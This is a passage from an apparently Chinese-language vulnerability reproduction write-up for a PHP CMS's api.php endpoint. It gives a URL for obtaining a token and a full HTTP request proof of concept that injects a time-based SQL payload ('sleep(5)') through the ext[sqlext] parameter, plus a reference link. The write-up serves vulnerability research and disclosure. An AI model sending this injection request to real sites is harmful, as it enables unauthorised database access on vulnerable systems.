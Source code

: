 > 没开启的话，其实构造一个csrf的poc也是可以的

第二个条件预期id=m_picplayer即可

### 漏洞复现

```
http://0-sec.org/api.php?c=index&f=token&id=m_picplayer 
```

![image](img/79349ebd419299c3860fbd3fa32552d4.png)

POC：

```
GET /api.php?c=index&f=phpok&token=6318fdtC3WRpOzYNzKVNw78PFa9OhFea5pp3/uZ4U3T67a/F47WhJ0lr856V7yomOcG0u8/UJpIwKKOwJAKspTSWN+5ljVNWR5978g7HHoG14M&ext[sqlext]=sleep(5)%23&ext[site]=1 HTTP/1.1
Host: 0-sec.org
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; U; Linux i686) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSION=l87bngd1u307g20iudfmphisu4
Connection: close 
```

## 四、参考链接

> https://xz.aliyun.com/t/6830